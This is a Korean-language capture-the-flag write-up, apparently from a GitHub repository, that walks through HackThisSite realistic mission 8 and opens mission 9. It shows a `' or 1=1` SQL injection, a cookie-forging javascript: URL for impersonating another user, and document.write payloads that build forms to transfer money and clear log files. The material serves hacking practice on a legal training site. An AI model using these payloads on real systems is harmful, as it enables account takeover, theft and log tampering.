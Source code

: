 ### 문제해결
- form-post방식, 클릭하면 login2.php로 이동
  + / input name: username, Password
	+ register.php -> register2.php
- 등록한 후 로그인하면 들어가짐. 로그인된 경우에 돈 이동시킬 수 있음
- user info
  + 18글자만 입력 가능
- search.php -> search2.php
  + POST방식: '를 넣어보니 인젝션 취약점 있는듯
- 아이디를 넣으면 memo에 있는 내용이 출력됨
- `' or 1=1` 입력했더니 아이디랑 메모 나옴
- 의심가는 사람: GaryWilliamHunter : -- $$$$$ --
- 다 포스트방식이므로 javascript넣어야 할듯
- `javascript:alert(document.cookie)`
  + `ihateboa/123`으로 로그인 후 쿠키 보면 아래와 같음

![boa](images/8_boa.png)
	http://www.hackthissite.org/missions/realistic/8/login2.php

- 돈 먼저 옮기고, 로그삭제
  + `javascript:document.cookie="accountUsername=GaryWilliamHunter;"`
  + 아무 아이디나 로그인 한 상태에서 id만 게리헌터로 쿠키 변조

- 돈 옮기기
```javascript
javascript:document.write("
<form action='movemoney.php' method='POST'>
	<input type='submit' value='Move Money To A Different Account'>
	<input type='text' name='TO' value='dropCash'>
	<input type='text' name='AMOUNT' value='10000000'>
</form>")
```

- 로그 지우기
```javascript
javascript:document.write("
<form action='cleardir.php' method='POST'>
	<input type='hidden' name='dir' value='logFiles'>
	<input type='submit' value='Clear Files In Personal Folder'>
	</form>")
```

## Level 9. CrappySoft Software
### 문제해결
- 상사의 계정으로 들어가서 online payment system에 접속하기
  + 일단은 본인 아이디 사용하기
	+ Username: r-conner@crappysoft.com Password: ilovemywork
- Demo에 보면 프로그램 다운받을 수 있고, 실행시켜보면 아래와 같이 오류메시지가 뜨고 관리자 아이디가 나온다.
![9_crappy-soft-software.png](images/9_crappy-soft-software.png)

